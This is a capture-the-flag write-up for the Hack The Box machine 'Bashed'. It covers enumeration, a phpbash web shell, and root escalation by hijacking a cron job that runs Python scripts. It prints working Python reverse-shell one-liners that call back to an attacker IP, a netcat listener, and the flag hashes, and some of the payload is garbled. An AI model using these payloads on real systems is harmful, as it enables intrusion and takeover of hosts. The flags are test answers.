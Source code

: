 ## Bashed
*Easy*

This time, I tried port scanning using rustscan because nmap was taking forever to give results.

![](images/bashed-scan.png)

Looks like only port 80 is open. So I opened the webpage.

![](images/basched-web.png)

Then using gobuster I did some eneumeration and found this. 

![](images/bashed-gobust.png)

I then opened /dev and then phpbash.min.php. Interesting! It had a terminal-like interface. I thus got the user flag.

![](images/bashed-user.png)

**2c281f318555dbc1b856957c7147bfc1**

Then I did ```sudo -l``` to see what privilages I had.

![](images/bashed-priv.png)

Clearly, www-data can run commands as scriptmanager. I gave 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and was waiting on my machine for the reverse shell.
```
nc -nvlp 1234
```
I got the reverse shell. Then I gave the following command.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![](images/bashed-rev.png)

In the / everything belongs to root except /scritps, which belongs to scriptmanager. So now we need to become scriptmanager to access /scripts.
```
sudo -u scriptmanager /bin/bash
```
In /scripts, test.py belongs to scriptmanager and the other test.txt belongs to root.

![](images/bashed-scripts.png)

So I opened test.py.

![](images.bashed-test.py.png)

Strange, test.txt was supposed to belong to scriptmanager. So I renamed test.txt as test1.txt and then ran test.py again. This time the test.txt that was created and it belonged to scriptmanager.

![](images/bashed-trial.png)

That's strange. This means there is something happening underneath that changes the owner of test.txt, might be a cron job. We need to manipulate this to become root.
So I made a file called script.py with the payload for a reverse shell and was listening at my machine.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.25\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > script.py
<eno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);
```

I used this payload and made a file called script.py and ran it while I was listening at the other end. I got the revershell, but I still remained scriptmanager.
Something is wrong. I thought my payload was incorrect so I deleted script.py. But of no use. Then I tohought, maybe the cronjob might work only on test.py or on only one python file. Since the payload was ready, I again made script.py and then deleted test.py. Within no time I got the revershell as root!

![](images/bashed-root.png)

**cc4f0afe3a1026d402ba10329674a8e2**
